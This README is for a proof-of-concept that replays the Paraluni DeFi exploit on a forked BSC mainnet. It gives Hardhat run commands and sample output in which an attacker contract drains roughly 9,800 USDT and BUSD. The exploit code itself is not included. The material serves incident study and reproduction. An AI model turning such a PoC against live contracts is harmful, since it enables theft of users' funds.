 # Paraluni re-hack PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/bsc/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
Exploit contract deployed to:  0x17dA40e699969d0Fd36551E5a029f5bE01b760B9
USDT balance of attacker: 0.0
BUSD balance of attacker: 0.0
Exploiting...
Exploit complete.
USDT balance of attacker: 9846.377790107105937968
BUSD balance of attacker: 9874.93734335839598
```
This means the attack is complete
> The block height of the fork is 16008280


## Link

* https://mobile.twitter.com/paraluni/status/1502951606202994694
* https://mp.weixin.qq.com/s/a5fFI5sFNAyuDxGqTFmC2A
